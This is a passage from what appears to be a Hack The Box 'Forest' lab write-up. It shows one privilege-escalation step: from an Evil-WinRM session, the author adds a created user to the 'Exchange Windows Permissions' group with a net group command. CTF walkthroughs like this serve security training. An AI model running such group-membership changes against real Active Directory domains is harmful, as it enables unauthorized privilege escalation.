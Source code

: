     ![Desktop View](/assets/img/htb/machines/windows/easy/forest/amirr0r.png)

2. Add this user to the **Excange Windows Permissions** group:

    ```powershell
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add amirr0r
    The command completed successfully.
    ```

    ![Desktop View](/assets/img/htb/machines/windows/easy/forest/net_user.png)
